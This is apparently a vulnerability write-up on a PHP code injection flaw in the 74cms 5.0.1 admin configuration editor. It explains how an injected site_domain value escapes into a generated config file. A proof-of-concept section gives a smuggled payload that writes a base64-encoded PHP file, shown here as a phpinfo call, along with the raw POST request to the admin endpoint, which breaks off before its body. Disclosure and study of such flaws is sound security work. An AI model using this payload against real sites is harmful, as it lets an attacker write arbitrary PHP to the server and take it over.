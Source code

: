 var\_export(): Quote string with slashes&Convert special characters to
HTML entities -\> stripslashes(): un-quotes a quoted string -\> Convert
special characters to HTML entities -\> write file

    file_put_contents($config_file, "<?php \nreturn " . stripslashes(var_export($config, true)) . ";",LOCK_

/Application/Home/Conf/url.php: The code after \"return array(\...);\"
does not work, so payload is site\_domain=\', {your php code},\'

    <?php 
    return array (
      'URL_MODEL' => 0,
      'URL_HTML_SUFFIX' => '.html',
      'URL_PATHINFO_DEPR' => '/',
      'URL_ROUTER_ON' => true,
      'URL_ROUTE_RULES' => 
      array (
        '/^jobfair\/(?!admin)(\w+)$/' => 'jobfair/index/:1',
        '/^mall\/(?!admin)(\w+)$/' => 'mall/index/:1',
      ),
      'QSCMS_VERSION' => '5.0.1',
      'QSCMS_RELEASE' => '2019-03-19 00:00:00',
      'SESSION_OPTIONS' => 
      array (
        'domain' => '.0.1',
        0 => 18,
        1 => '',
        'path' => 'D:\***\***\***\WWW\74cms\data\session',
      ),
      'COOKIE_DOMAIN' => '.0.1',
      0 => 18,
      1 => '',
    );

### 复现poc

-\> PD9waHAgcGhwaW5mbygpOz8+

site\_domain=\',
file\_put\_contents(\'403.php\',base64\_decode(\'PD9waHAgcGhwaW5mbygpOz8+\')),\'

    POST /74cms/index.php?m=Admin&c=config&a=edit HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/74cms/index.php?m=Admin&c=Config&a=index
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 465
    Connection: close
    Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default
